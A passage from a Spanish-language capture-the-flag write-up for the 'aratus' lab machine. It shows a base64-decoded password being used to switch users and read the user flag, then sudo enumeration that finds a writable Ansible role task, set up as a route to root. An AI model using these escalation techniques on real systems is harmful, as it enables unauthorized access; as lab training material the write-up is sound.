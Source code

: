¡Vamos a decodificar esa texto en `base64` para ver qué hay dentro!

```bash
[simeon@aratus test-auth]$ echo "dG[REDACTED]s=" | base64 -d
theodore:Ri[REDACTED]ik
```
¡Sí! ¡Ahora tenemos las credenciales para `theodore` y finalmente podemos obtener la flag de usuario!

```bash
[simeon@aratus test-auth]$ su theodore
Password:
[theodore@aratus test-auth]$ cat ~/user.txt
THM{[REDACTED]}
```

## Root

¡Tiempo de enumeración otra vez!

Podemos ejecutar un script específico con el usuario `automation` y `sudo`...

```bash
[theodore@aratus ~]$ sudo -l
Matching Defaults entries for theodore on aratus:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset,
    env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR
    USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User theodore may run the following commands on aratus:
    (automation) NOPASSWD: /opt/scripts/infra_as_code.sh
```
¡Veamos este script rapidamente!

```bash
[theodore@aratus ~]$ cat /opt/scripts/infra_as_code.sh
#!/bin/bash
cd /opt/ansible
/usr/bin/ansible-playbook /opt/ansible/playbooks/*.yaml
```
Parece un script para ejecutar `ansible`. Si no sabes qué es `ansible`, [aquí tienes más información](https://www.ansible.com/resources/get-started?hsLang=en-us)!

Entonces, después de googlear un poco cómo funciona `ansible`, comenzamos a buscar algunas tareas dentro de la carpeta `ansible` que podemos editar...

¡Resulta que dentro del rol/carpeta `geerlingguy.apache` hay una tarea con el nombre `configure-RedHat.yml` y podemos editarla!
```bash
[theodore@aratus ~]$ ls -la /opt/ansible/roles/geerlingguy.apache/tasks/
total 36
drwxr-xr-x. 2 automation automation  228 Dec  2 11:55 .
drwxr-xr-x. 9 automation automation  178 Dec  2 11:55 ..
-rw-rw-r--. 1 automation automation 1693 Dec  2 11:55 configure-Debian.yml
-rw-rw-r--+ 1 automation automation 1211 Mar 26 20:04 configure-RedHat.yml
-rw-rw-r--. 1 automation automation  546 Dec  2 11:55 configure-Solaris.yml
-rw-rw-r--. 1 automation automation  711 Dec  2 11:55 configure-Suse.yml
-rw-rw-r--. 1 automation automation 1388 Dec  2 11:55 main.yml
-rw-rw-r--. 1 automation automation  193 Dec  2 11:55 setup-Debian.yml
-rw-rw-r--. 1 automation automation  198 Dec  2 11:55 setup-RedHat.yml
-rw-rw-r--. 1 automation automation  134 Dec  2 11:55 setup-Solaris.yml
-rw-rw-r--. 1 automation automation  133 Dec  2 11:55 setup-Suse.yml
```
